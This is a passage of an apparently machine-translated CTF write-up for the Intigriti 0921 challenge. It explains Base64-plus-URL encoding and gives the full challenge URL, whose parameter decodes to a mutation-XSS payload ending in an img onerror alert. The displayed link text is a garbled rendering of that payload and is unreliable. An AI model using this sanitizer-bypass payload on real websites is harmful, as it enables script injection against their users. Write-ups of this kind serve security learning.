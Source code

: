 CyberChef — To Base64 → URL Encoded

*为什么在 base64 之后我们还需要 URL 编码*🤔

因为 base64 字符串可以包含“+”、“=”和“/”字符。这可能会改变数据的含义。

**Base64 编码+URL 编码的有效负载**:

[https://challenge-0921.intigriti.io/challenge/manager.html?password = pg 1 hdgg+pg 10 zxh 0 pjx 0 ywjszt 48 bwdsexbopjxzdhlszt 48 is 0 TPC 9 zdhlszt 48 aw 1 nihrpdgdxlpsitlsznddsmbhq 7 l 21 nbhwacznddsmbhq 7 aw 1 jrhyjtzcmm 9 mszuywi 7 b 25 lcnjvcj 1 hbgvydchk b 2 1 bwvudc 5 kb 21 haw4 pjmd 0oyi+](https://challenge-0921.intigriti.io/challenge/manager.html?password=PG1hdGg+PG10ZXh0Pjx0YWJsZT48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPSItLSZndDsmbHQ7L21nbHlwaCZndDsmbHQ7aW1nJlRhYjtzcmM9MSZUYWI7b25lcnJvcj1hbGVydChkb2N1bWVudC5kb21haW4pJmd0OyI+)"

***💥Booom！！！*** ***终于！！！***

![](img/c4c0fb1a47a135ef3a8df0b04f6dccfd.png)

感谢阅读，希望你能从这篇文章中学到一些东西。注意安全！！！

> 确保你给这篇文章一些建议👏如果你喜欢这篇文章并想看更多的话，可以关注我的博客。🤝 ❤️ 🇱🇰

# **BOUNS 读作**:

我是如何手动对代码的某些部分进行逆向工程*来感受这些代码在做什么。让我们做这个简单的 console.log()部分…*

![](img/43a6c1665d421d91fae2c0861547eaf8.png)
